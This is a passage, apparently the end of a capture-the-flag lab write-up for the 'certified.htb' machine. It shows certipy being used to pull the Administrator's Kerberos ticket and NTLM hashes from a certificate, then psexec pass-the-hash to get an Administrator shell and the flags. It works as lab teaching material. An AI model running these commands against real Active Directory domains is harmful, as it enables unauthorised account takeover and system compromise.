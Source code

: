 And get administrator _TGT and hashes_:

<br>

	$ certipy auth -pfx administrator.pfx -domain certified.htb

<br>

![Pasted image 20241109174537](https://github.com/user-attachments/assets/ea83202d-8a5a-48a5-b7ac-3e87eaeb0177)

<br><br>

Get Administrator shell:

<br>

	$ psexec.py 'certified.htb/Administrator@10.10.11.41' -hashes aad3bBLABLABLA2d34

<br>

![Pasted image 20241109174656](https://github.com/user-attachments/assets/4da4a479-1d13-4d81-bc7e-fa4c06d94002)

<br><br>

Getting user.txt and root.txt togheter:

<br>

![Pasted image 20241109174733](https://github.com/user-attachments/assets/1c1ff99c-a98d-4320-8eca-40bf3f6b9002)

